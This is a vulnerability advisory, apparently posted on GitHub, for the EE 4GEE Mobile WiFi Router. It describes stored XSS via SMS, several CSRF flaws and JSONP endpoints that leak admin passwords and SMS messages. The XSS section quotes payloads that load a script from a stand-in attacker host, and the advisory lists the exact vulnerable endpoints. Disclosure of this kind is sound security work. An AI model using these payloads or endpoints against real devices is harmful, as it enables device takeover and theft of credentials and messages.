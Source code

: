 

Stored Cross Site Scripting (XSS) - SMS Messages:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b><br>http://ee.mobilebroadband/default.html#sms/smsList.html?list=inbox<br>
http://ee.mobilebroadband/getSMSlist?rand=0.19598614685224347
<br>
<br>
<b>Attack Vectors:</b> An attacker can exploit the vulnerability by sending a remote SMS message to the device with an XSS payload such as "<script src=http://payload.js</script>" which is executed upon the user viewing the SMS message within the admin panel "SMS Inbox" functionality. Additionally, self-XSS can be achieved by creating an XSS payload from the device its self within a text message, which could be chained with other vulnerabilities such as CSRF.
<br>
<br>
<b>Vulnerability Description:</b>The 4GEE Mobile WiFi Router is vulnerable to Stored Cross Site Scripting (XSS) within the "sms_content" parameter returned to the application's SMS Inbox webpage by the "getSMSlist" POST request, due to a lack of input validation and/or encoding. This exploit can be triggered by remotely sending an SMS message containing any XSS payload such as '"><script src=http://attacker.tld/r.js></script>' which upon clicking on the text message within the web application is successfully executed. 
<br>
<br>
Additionally, due to the other vulnerabilities identified within this device, such vulnerability can be chained with Cross Site Request Forgery (CSRF) using the Stored XSS payload to send an JavaScript XHR POST request to the "uploadSettings" webpage containing binary configuration data, allowing for total modification of device settings by an attacker.

CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 7.1 - High).

<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s)</b>:
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities

Cross Site Request Forgery (CSRF) - Multiple:
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Code Execution
<br>
<b>Affected Components:</b>
<br>
http://192.168.1.1/goform/AddNewProfile?rand=0.376065695742409
<br>
http://192.168.1.1/goform/setWanDisconnect?rand=0.6988130822240772
<br>
http://192.168.1.1/goform/setSMSAutoRedirectSetting?rand=0.9003361879232169
<br>
http://192.168.1.1/goform/setReset?rand=0.021764703082234105
<br>
http://192.168.1.1/goform/uploadBackupSettings
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple Cross Site Request Forgery (CSRF) vulnerabilities within various router administration webpages, due to the lack of robust request verification tokens within requests. An attacker could persuade an authenticated user to visit a malicous website using phishing and/or social engineering techniques to send an CSRF request to the web application, thus executing the privileged function as the authenticated user. In this case, due to the lack of authentication on certain privileged functions, authentication may not be neccessary.
<br>
<br>
The following webpages were identified to be vulnerable to Cross Site Request Forgery (CSRF) attacks:
<br>
<br>
AddNewProfile [2].
<br>
setWanDisconnect [3].
<br>
setSMSAutoRedirectSetting [4].
<br>
setReset [5].
<br>
uploadBackupSettings [6].
<br>
<br>
CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 6.8 - Medium).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
[2] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/AddProfileCSRFXSSPoc.html
<br>
[3] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFInternetDCPoC.html
<br>
[4] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocRedirectSMS.html
<br>
[5] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/CSRF/CSRFPocResetDefaults.html
<br>
[6] https://github.com/JamesIT/vuln-advisories-/blob/master/EE-4GEE-Multiple-Vulns/uploadBinarySettingsCSRFPoC.html
<br>

JSONP Sensitive Information Disclosure - Multiple
-------------------------------------------------
<b>Attack Type:</b> Remote
<br>
<b>Impact:</b> Information Disclosure, Escalation of Privileges
<br>
<b>Affected Components:</b> 
<br>
http://192.168.1.1/goform/getPasswordSaveInfo
<br>
http://192.168.1.1/goform/getSingleSMSReport?rand=0.133713371337
<br>
http://192.168.1.1/goform/getSingleSMS?sms_id=1&rand=0.133713371337
<br>
http://192.168.1.1/goform/getSMSStoreState
<br>
http://192.168.1.1/goform/getSMSAutoRedirectSetting
<br>
http://192.168.1.1/goform/getSysteminfo
<br>
http://192.168.1.1/goform/getUsbIP?rand=0.13371337
<br>
<br>
<b>Attack Vectors:</b> ??????
<br>
<br>
<b>Vulnerability Description:</b> The 4GEE Mobile WiFi Router is vulnerable to multiple JSONP information disclosure vulnerabilities within various endpoints which retrieve and/or set data. The JSONP endpoints allow for unauthenticated information disclosure of sensitive configuration data, settings, administration passwords and SMS messages, due to the lack of robust and effective access control. An attacker could view such unauthenticated endpoints via the local WiFi network to gain access to the administration credentials, router configuration and/or SMS messages.
<br>
<br>
CVSS:3.0/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C (CVSS V3: 8.1 - High).
<br>
<br>
<b>Author:</b> James Hemmings - security@jameshemmings.co.uk
<br>
<b>Reference(s):</b>
<br>
[1] https://blog.jameshemmings.co.uk/2017/08/21/ee-4gee-mobile-wifi-router-multiple-security-vulnerabilities
<br>
<br>

Disclaimer
-------------------------------------------------
The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
